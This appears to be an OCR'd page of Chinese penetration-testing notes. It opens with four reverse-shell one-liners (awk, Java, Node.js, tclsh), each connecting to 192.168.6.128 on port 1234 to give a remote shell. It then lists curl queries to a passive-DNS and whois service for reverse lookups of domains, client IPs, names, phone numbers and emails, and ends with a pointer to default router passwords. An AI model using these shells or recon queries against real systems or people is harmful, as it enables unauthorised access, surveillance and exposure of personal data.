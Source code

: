 AWK REVERSE SHELL
awk 'BEGIN {s = "/inet/tcp/0/192.168.6.128/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

JAVA REVERSE SHELL
r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/192.168.6.128/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();

NODE.JS REVERSE SHELL
(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(1234,"192.168.6.128",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();

TCLSH REVERSE SHELL
echo 'set s [socket 192.168.6.128 1234];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
16.	实时监测
16.1.	域名流行度
16.1.1.	查询二级域名
•	curl http://fdp.x.cn/topdomain/sld/qq.com
curl http://fdp.x.cn/topdomain/sld/rank/110
16.1.2.	查询全域名
•	curl http://fdp.x.cn/topdomain/fqdn/www.baidu.com
curl http://fdp.x.cn/topdomain/fqdn/rank/1
16.2.	DNS流量
16.2.1.	查询指定域名的客户端访问IP
•	curl "http://fdp.x.cn/pdns/access/domain/www.x.cn/?start=20170903155555&end=20170903170000"
16.2.2.	查询指定客户端IP访问的域名信息
•	curl "http://fdp.x.cn/pdns/access/client/1.204.151.47/?start=20171201145555&end=20171203170000&limit=10"
16.3.	域名及其子域名
16.3.1.	查询指定域名的子域名及其出现时间
•	curl "http://fdp.x.cn/dtree/pogzu3g64vj-y4en6.com/?timeformat=simple"
16.4.	域名与IP映射信息
16.4.1.	查询指定域名或前缀通配符域名的解析信息
•	curl "http://fdp.x.cn/flint/rrset/*.baidu.com/?limit=10"
16.4.2.	查询指定域名或IP或后缀通配域名或IP的被解析信息
•	curl "http://fdp.x.cn/flint/rdata/220.181.112.*/?limit=10"
16.4.3.	指定CIDR查询相关域名(CIDR>=24)
•	curl http://beta.fdp.x.cn/flint/rdata/39.106.113.0/31/?slimit=1
16.5.	whois
16.5.1.	查询whois记录总数
•	curl "http://fdp.x.cn/whois/count/baidu.com,google.com"
curl "http://fdp.x.cn/whois/count/email/dns-admin@google.com"
可选：domain、nameserver、email、phone、org、name
16.5.2.	查询指定域名的whois详细信息
•	curl "http://fdp.x.cn/whois/detail/google.com"
16.5.3.	查询指定域名的whois历史记录
•	curl "http://fdp.x.cn/whois/history/google.com/?order=1"
16.5.4.	根据姓名/电话/email/机构名等信息反查相关域名
•	curl "http://fdp.x.cn/whois/reverse/shujun/?limit=10"
curl "http://fdp.x.cn/whois/reverse/name/shujun"
curl "http://fdp.x.cn/whois/reverse/phone/+86.13511629585"
curl "http://fdp.x.cn/whois/reverse/email/373192510@qq.com/?limit=10"
curl "http://fdp.x.cn/whois/reverse/org/shujun/?limit=5&skip=5"
curl "http://fdp.x.cn/whois/reverse/nameserver/dns.hichina.com"
16.6.	域名请求趋势
16.6.1.	curl http://fdp.x.cn/trends/www.baidu.com?type=fqdn&start=20200301&end=20200305
16.7.	根据ICP备案号查询相关ICP数据
16.7.1.	curl http://beta.fdp.x.cn/icp/%E6%B5%99B2-20080224-1
curl http://beta.fdp.x.cn/icp/domain/taobao.com
支持(domain,icp,webname,owner)
17.	路由交换默认密码查询
17.1.	https://www.routerpasswords.com/